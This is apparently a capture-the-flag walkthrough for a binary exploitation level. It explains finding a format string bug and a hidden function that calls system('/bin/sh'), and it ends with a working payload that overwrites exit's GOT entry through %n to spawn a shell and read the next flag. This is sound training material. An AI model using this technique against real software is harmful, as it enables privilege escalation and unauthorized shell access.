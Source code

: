 # level05

Here we have still our user input in the first argument of printf, I do not see other thing.

The program wait for an input, and print the result :

```bash

```

By looking at the assembly, we can see that the program call a function f, gets input from stdin with fgets and pass the result to printf.

With "info functions", we can see that another function "o" is not called. It contains a call of system with "/bin/sh" as parameter :

```gdb
(gdb) info functions
All defined functions:

Non-debugging symbols:
...
0x080484a4  o
0x080484c2  n
0x08048504  main
...
```


We execute my "loop_address.py" script and I found my user input as write in the fourth Direct Access Parameter

If we see the global offset table (global_offset_table.png), with "objdump -R level5" we can see the address to the exit fonction who is called at *n+61, we can overwrite this value to put the "o" function address to jump to the "o" function when the address of exit is call

the "o" function address is "0x080484a4" it's 134513828 in base 10 we sub 4 for the 4 first byte of the destination address.

We can execute this cammand to have a shell with the level6 user right to get the flag:
(python -c 'print "\x38\x98\x04\x08" + "%134513824x" + "%4$n"';cat) | ./level5
